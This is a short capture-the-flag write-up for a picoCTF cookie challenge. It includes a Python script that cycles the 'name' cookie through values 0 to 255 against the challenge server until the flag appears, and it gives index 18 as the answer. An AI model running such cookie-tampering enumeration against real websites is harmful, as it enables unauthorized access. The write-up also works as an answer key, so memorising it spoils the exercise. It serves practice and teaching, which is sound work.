 ## Description
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:27177/

## Solution
the webpage used a cookie. and if we input any value, it will be checked and if valid will show a response.


this is a sample cookie recieved:
```
auth_name=TE1YOFZTSU0zYWh1VkpjYUVNQTdXVG01clZRbVplb0NWQWdSZ1hPNCsxRUhMQ3FQUEdWdEttaWhXbm1qbW1Ja3JDWVpLWW8vYVlMTVZsazVCZXlkWkpIZHhyMzRpMmFMTUQ2b1Q1dGtuQmQyeGZNQUlaNFpGaGwzdzc5MkM3TXQ=; name=-1
```

the `auth_name` seem to be not usefull, but if we enter a valid cookie name like `snickerdoodle` which is given as hint in placeholder of input, we will a green prompt will be shown and cookie value `name` will be changed.

So we get the idea to get the flag, we should iterate on `name` values and see if we find any `name` value which gives us the flag.


python code for it:
```python

import requests

url = 'http://mercury.picoctf.net:27177/check'

for i in range(256):
	print(f'[+] Index = {i}')
	headers = {
		'Cookie': f'auth_name=TE1YOFZTSU0zYWh1VkpjYUVNQTdXVG01clZRbVplb0NWQWdSZ1hPNCsxRUhMQ3FQUEdWdEttaWhXbm1qbW1Ja3JDWVpLWW8vYVlMTVZsazVCZXlkWkpIZHhyMzRpMmFMTUQ2b1Q1dGtuQmQyeGZNQUlaNFpGaGwzdzc5MkM3TXQ=; name={i}'
	}
	res = requests.get(url, headers=headers)
	content = res.content.decode()
	if "picoCTF" in content:
		print(content)
```

on iteration index=18, will give us the flag.